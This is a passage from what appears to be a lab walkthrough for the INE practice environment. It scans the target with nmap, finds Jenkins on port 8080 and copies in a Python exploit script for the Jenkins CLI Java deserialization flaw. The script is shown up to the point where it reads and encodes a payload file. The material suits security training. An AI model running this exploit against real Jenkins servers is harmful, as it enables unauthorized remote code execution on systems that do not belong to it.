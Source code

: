 Use the following command to get the information about open ports and services in the network.

Command:
```bash
nmap demo.ine.local
```


Got the information about the IP address and the ports which are open in the target machine.

Step 3: Inspect the Jenkins application by navigating to the IP address at port 8080 in the web browser.

Target URL:
```bash
http://192.24.161.3:8080/
```



Step 4: Copy and paste the python exploit code and save it as exploit.py.

Source: https://github.com/foxglovesec/JavaUnserializeExploits/blob/master/jenkins.py

Code:
```python
#!/usr/bin/python
# usage: ./jenkins.py host port /path/to/payload
import socket
import sys
import requests
import base64

host = sys.argv[1]
port = sys.argv[2]

# Query Jenkins over HTTP to find what port the CLI listener is on
r = requests.get('http://' + host + ':' + port)
cli_port = int(r.headers['X-Jenkins-CLI-Port'])

# Open a socket to the CLI port
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server_address = (host, cli_port)
print('connecting to %s port %s' % server_address)
sock.connect(server_address)

# Send headers
headers = '\x00\x14\x50\x72\x6f\x74\x6f\x63\x6f\x6c\x3a\x43\x4c\x49\x2d\x63\x6f\x6e\x6e\x65\x63\x74'
print('sending "%s"' % headers)
sock.send(headers)
data = sock.recv(1024)
print >>sys.stderr, 'received "%s"' % data
data = sock.recv(1024)
print >>sys.stderr, 'received "%s"' % data

payloadObj = open(sys.argv[3], 'rb').read()
payload_b64 = base64.b64encode(payloadObj)
```